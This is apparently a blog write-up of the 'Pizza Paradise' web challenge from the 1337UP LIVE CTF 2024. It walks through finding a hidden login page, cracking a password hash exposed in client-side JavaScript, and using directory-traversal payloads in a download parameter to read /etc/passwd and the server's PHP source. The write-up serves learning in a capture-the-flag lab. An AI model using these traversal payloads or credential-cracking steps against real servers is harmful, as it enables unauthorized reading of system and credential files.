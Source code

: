 ```yaml
---
layout: post
title: Pizza Paradise - 1337UP LIVE CTF 2024
date: 2024-11-17 22:25:41
description: Writeup for a crypto CTF in 1337UP LIVE CTF 2024
tags: web
categories: ctf
---
```


# Pizza Paradise

**Author:** p4pa  
**Team:** xSTF  

## INFO
- **CTF:** 1337UP LIVE CTF 2024
- **Challenge:** Pizza Paradise
- **Category:** Web
- **Description:** Something weird going on at this pizza store!

## WriteUP

### Recon

We were provided a URL to a pizza store website. Initially, the site seemed entirely static, but I decided to explore further. This was my first web challenge in a CTF competition, so my methods are still evolving—take them with a grain of salt.

The first thing I did was open **ZAPROXY** and run an active scan, as I’ve been training with it and am quite liking the tool. **Burp Suite** is also a good option, but I stuck with ZAPROXY for this challenge.

The scan returned a few interesting results, including an unlinked page at:

```
https://pizzaparadise.ctf.intigriti.io/secret_172346606e1d24062e891d537e917a90.html
```

By checking the server response, I discovered it was a login page with the following JavaScript running:

```php
<script>
    function hashPassword(password) {
        return CryptoJS.SHA256(password).toString();
    }

    function validate() {
        const username = document.getElementById("username").value;
        const password = document.getElementById("password").value;

        const credentials = getCredentials();
        const passwordHash = hashPassword(password);

        if (
            username === credentials.username &&
            passwordHash === credentials.passwordHash
        ) {
            return true;
        } else {
            alert("Invalid credentials!");
            return false;
        }
    }
</script>
```

I tried logging in with some default credentials like `admin:admin`, but they didn't work. I then checked if the `getCredentials()` function was defined elsewhere on the site.

In the `/assets/js` directory, I found an `auth.js` file containing:

```js
const validUsername = "agent_1337";
const validPasswordHash = "91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac";

function getCredentials() {
    return {
        username: validUsername,
        passwordHash: validPasswordHash,
    };
}
```

With the password hash available, I attempted to crack it. I first tried **CrackStation** (https://crackstation.net/) and got the password `intel420`. While I could’ve used **hashcat** or **John the Ripper**, I opted for this faster method.

Using the credentials `agent_1337:intel420`, I successfully logged in and was redirected to:

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php
```

This page allowed me to download one of four photos.

### LFI

Upon inspecting the request, I saw that the photos were downloaded by sending a GET request with the `download` parameter:

```http
GET https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=%2Fassets%2Fimages%2Ftopsecret1.png HTTP/1.1
```

This raised a suspicion that the server could be vulnerable to **Local File Inclusion (LFI)**. I followed the methodology I learned from **HackTricks** and tried accessing the `/etc/passwd` file. To do this, I used the **Fuzzing tool** in **ZAPROXY** with this [LFI payload list](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) from **SecLists**. However, none of the payloads worked, returning a 200 status with the same content.

I took a step back and analyzed the photo download request. It was the only request that actually triggered a download, so I tested the LFI payloads there. I first tried manually adding `../../` to the URL **above `/assets/images/`**, as this was a condition for the LFI vulnerability:

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=../../assets/images/
```

This returned an error:

```html
<br />
<b>Notice</b>:  readfile(): Read of 8192 bytes failed with errno=21 Is a directory in <b>/var/www/html/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php</b> on line <b>13</b><br />
```

This indicated that the server was running on **Linux** and that the file was trying to read a directory. With this information, I proceeded with further fuzzing.

I appended `/assets/images/` to the LFI payloads and eventually found that the payload:

```
/assets/images/../../../../../../../../../../../../etc/passwd
```

successfully returned the contents of the `/etc/passwd` file. This confirmed that the server was vulnerable to LFI.

To confirm, I tried downloading the PHP file that was serving the page by using this payload:

```
/assets/images/../../../../../../../../../../../../var/www/html/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php
```

This returned the source code of the PHP file, and within the code, I found the flag:

```php
$flag = 'INTIGRITI{70p_53cr37_m15510n_c0mpl373}';
```